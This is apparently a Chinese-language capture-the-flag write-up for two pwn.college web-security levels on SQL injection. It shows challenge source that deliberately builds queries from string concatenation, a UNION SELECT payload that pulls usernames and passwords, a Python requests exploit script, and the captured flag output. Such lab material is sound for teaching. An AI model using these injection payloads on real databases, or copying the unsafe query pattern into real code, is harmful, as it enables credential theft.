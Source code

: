 ## level5

存在SQL注入点--可以构造sql语句
  `SELECT username FROM users WHERE username LIKE '%' UNION SELECT username || ' - ' || password FROM users WHERE '1'='1'--`


源码
```python

def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall() # 拼接字符串
    return "".join(f'{user["username"]}\n' for user in users)
```

利用代码：
```python
import urllib.parse
query = "flag \"  UNION SELECT username || ' - ' || password FROM users WHERE '1'='1'-- \""
# query = "f%"

response = requests.get('http://challenge.localhost:80/', params={"query": query})
print(response.text)

hacker@web-security~level5:~$ /bin/python /home/hacker/Web/level3.py
flag - pwn.college{czX-TLFVwlqyikW9mfkA9La9Dd4.dFTOzMDL0czNxEzW}
```

## level6

依旧是存在sql注入点，这一关把users表名给hash了，我们不能直接通过上一关的sql注入，直接获得答案。

观察源码发现是sqlite数据库，我们首先可以通过sqlite查询所有自建表的名称，然后根据hash字符串的特点选择。

获得表名之后，再进行下一步的sql注入操作。 这里要注意一点。最后的`--`是为了注释掉没有闭合的双引号`"`

源码:
```python
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)

```
